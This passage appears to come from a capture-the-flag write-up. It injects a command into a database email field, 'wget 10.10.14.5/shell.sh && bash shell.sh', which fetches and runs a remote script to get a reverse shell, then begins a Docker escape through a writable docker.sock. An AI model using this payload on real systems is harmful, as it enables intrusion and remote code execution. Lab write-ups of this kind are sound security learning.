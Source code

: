 So how do we exploit this? We can either manipulate email we enter, or we can edit the database somehow.

<figure><img src="../../../.gitbook/assets/image (126) (1).png" alt=""><figcaption></figcaption></figure>

However, based on this code, it uses some kind of APP\_SECRET, which I'm too lazy to find. So in this case, we can instead opt to add another user into the database with a command appended to the end in order to gain a reverse shell as the www-data.

We can host a malicious script on a HTTP server and use this insert command.

{% code overflow="wrap" %}
```
insert into users(name,email,email_verified_at,password,remember_token,created_at,updated_at,user_type) values ('testing','testing@ezpwn|wget 10.10.14.5/shell.sh && bash shell.sh', '2022-01-02 20:14:55','ef92b778bafe771e89245b89ecbc08a44a4e166c06659911881f383d4473e94f','2KTrBJhwcS','2022-01-02 20:15:00','2022-01-02 20:15:00','Member');
```
{% endcode %}

Then we can find our user on the website.

<figure><img src="../../../.gitbook/assets/image (124) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Once we hit validate, we will get a shell back as the application user.

<figure><img src="../../../.gitbook/assets/image (97) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Docker Escape

We are now in this container as another user, and the next step is to escape in order to become root or have root access to the machine. I'm not that great with Docker escape, so Hacktricks was a life saver here.

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation" %}

Early enumeration shows that there is a docker.sock in the /app/docker.sock directory. However, we can't run the docker command in this container, so there has to be another way.&#x20;

In this machine, there's one critical vulnerability, of which is that the docker.sock is writable.

<figure><img src="../../../.gitbook/assets/image (107) (1) (1).png" alt=""><figcaption></figcaption></figure>

So we can enumerate further to find some docker exploits using curl.

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/authz-and-authn-docker-access-authorization-plugin" %}

After reading quite a bit on docker sockets, how they're not supposed to be writeable and so on, I found a working exploit here.
